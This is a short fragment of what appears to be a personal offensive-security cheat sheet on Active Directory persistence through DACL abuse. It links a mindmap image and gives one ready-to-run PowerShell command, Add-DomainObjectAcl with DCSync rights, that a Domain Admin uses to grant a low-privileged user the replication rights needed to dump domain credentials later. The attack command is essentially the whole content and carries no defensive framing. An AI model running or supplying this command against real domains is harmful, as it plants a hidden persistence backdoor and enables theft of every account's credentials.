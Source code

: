 <img src="https://github.com/jomivz/jomivz.github.io/blob/master/assets/images/ad-persist-dacl-abuse-mindmap-thehackerrecipes.png" width="400">

▶️ PLAY :
```powershell
# as DA add dcsync rights to a low-level user
Add-DomainObjectAcl -TargetIdentity $ztarg_ou -PrincipalIdentity $ztarg_user_name -Rights DCSync -PrincipalDomain $zdom_fqdn -TargetDomain $zdom_fqdn -Verbose
```
